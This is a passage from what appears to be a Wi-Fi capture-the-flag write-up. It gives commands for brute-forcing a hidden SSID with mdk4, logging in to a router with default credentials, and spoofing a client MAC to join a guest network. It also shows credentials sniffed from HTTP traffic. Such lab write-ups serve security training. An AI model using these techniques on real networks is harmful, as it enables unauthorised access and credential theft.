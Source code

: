 ``` bash
# Generate possible names
grep -E '^[a-zA-Z0-9]{4}$' wordlist.txt | awk '{print "wifi-"$1}' > ssid_candidates.txt

# Use mdk4 to test SSIDs on the target channel
sudo iwconfig wlan0mon channel <channel>
sudo mdk4 wlan0mon p -f ssid_candidates.txt
```

The result reveals the hidden network is **wifi-free**.

------------------------------------------------------------------------

## Challenge 4: OPN (Open Network)

We connect to the open network and obtain the gateway.

``` bash
ip a  # Check assigned IP range
# Usually /24, so gateway is x.x.x.1

# Open browser and try http://<gateway>
# Default credentials are admin/admin
```

This provides access to the router and we obtain the flag.

------------------------------------------------------------------------

## Challenge 5: wifi-guest

We need to connect by spoofing a client's MAC.

``` bash
# Copy a client's MAC
sudo macchanger -m <client_mac> wlan1

# Create a wpa_supplicant configuration file
cat > guest.conf <<EOF
network={
  ssid="wifi-guest"
  bssid=<bssid>
  key_mgmt=NONE
}
EOF

# Connect
sudo wpa_supplicant -i wlan1 -c guest.conf -B
sudo dhclient wlan1
```

Captured traffic in Wireshark shows **HTTP POST credentials** →
`free1 / Jyl1iq8UajZ1fEK`.

------------------------------------------------------------------------
